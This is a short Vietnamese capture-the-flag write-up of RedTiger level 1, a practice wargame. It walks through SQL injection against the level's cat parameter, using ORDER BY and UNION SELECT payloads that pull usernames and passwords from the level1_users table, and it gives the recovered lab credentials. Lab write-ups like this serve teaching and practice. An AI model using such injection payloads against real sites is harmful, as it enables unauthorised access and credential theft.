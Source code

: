 #Writeup Redtiger Level1
*Người thực hiện: Hoàng Quốc Cường*
- Đầu tiên, ta cần tìm url có `php?id=`. Ta bấm vào số 1 bên cạnh Category thì chuyển qua url như sau: `http://redtiger.labs.overthewire.org/level1.php?cat=1`
<img src="http://i.imgur.com/JCsAkIu.png">
- Sau đó ta tiến hành `ORDER BY` để tìm xem có bao nhiêu cột. 
- Dùng lệnh `UNION SELECT 1,2,3,4-- -` để truy xuất các cột.
<img src="http://i.imgur.com/3F9wa35.png">
- Ở đây, đề bài đã cho ta biết table_name là **level1_users** nên ta có thể phỏng đoán rằng username và password ở trong bảng đó.
- Dùng lệnh `UNION SELECT 1,2,username,password FROM level1_users` thì sẽ thu được kết quả.
<img src="http://i.imgur.com/tR2L3F3.png">
- Kết quả: Username: **Hornoxe** và Password:**thatwaseasy**
